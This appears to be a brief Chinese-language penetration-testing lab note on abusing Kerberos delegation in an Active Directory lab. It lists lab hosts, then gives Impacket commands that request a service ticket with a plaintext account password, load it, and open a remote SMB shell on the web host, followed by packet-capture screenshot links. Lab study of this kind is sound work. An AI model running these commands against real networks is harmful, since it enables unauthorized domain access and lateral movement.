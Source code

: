 ```
kali    192.168.2.16
win2012 192.168.2.17  dc.xiaodi.local
win7    192.168.2.14  web.xiaodi.local
```



```
#使用dbadmin账号密码请求win17的zf1yolo服务的ST服务票据
python getST.py -dc-ip 192.168.2.17 -spn zf1yolo/web.xiaodi.local xiaodi.local/dbadmin:admin\!\@\#45

#导入该ST服务票据
export KRB5CCNAME=dbadmin.ccache

#使用smb远程连接win7
python smbexec.py -no-pass -k web.xiaodi.local
```



过程中抓包：

<img src=".\图片\Snipaste_2023-09-14_16-49-50.png" alt="Snipaste_2023-09-14_16-49-50"  />



<img src=".\图片\Snipaste_2023-09-14_16-54-38.png" alt="Snipaste_2023-09-14_16-54-38"  />



<img src=".\图片\Snipaste_2023-09-14_17-00-17.png" alt="Snipaste_2023-09-14_17-00-17"  />
